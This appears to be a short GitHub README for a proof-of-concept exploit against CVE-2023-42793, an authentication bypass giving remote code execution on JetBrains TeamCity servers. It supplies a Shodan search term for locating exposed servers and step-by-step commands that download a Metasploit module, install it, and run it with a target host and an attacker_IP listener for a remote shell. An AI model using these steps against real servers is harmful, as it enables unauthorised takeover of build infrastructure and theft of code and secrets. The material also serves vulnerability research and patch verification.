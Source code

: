 # CVE-2023-42793

![](https://img.shields.io/static/v1?label=Product&message=JetBrains%20TeamCity%20Server&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=All%20versions%20of%20TeamCity%20prior%20to%20version%202023.05.4&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=Remote%20Code%20Execution&color=red)

## Shodan Dork:
```
TeamCity
```

## Description

In JetBrains TeamCity before 2023.05.4 authentication bypass leading to RCE on TeamCity Server was possible


### Usage

### Metasploit Framework
```
wget https://raw.githubusercontent.com/getdrive/PoC/main/2023/JetBrains_RCE/jetbrains_teamcity_rce_cve_2023_42793.rb
```
```
cp jetbrains_teamcity_rce_cve_2023_42793.rb /usr/share/metasploit-framework/modules/exploits/multi/http/jetbrains_teamcity_rce_cve_2023_42793.rb
```
```
msfdb reinit; msfconsole -q
```
```
use exploits/multi/http/jetbrains_teamcity_rce_cve_2023_42793.rb
```
```
set RHOSTS target_IP
```
```
set lhost attacker_IP
```
```
run
```

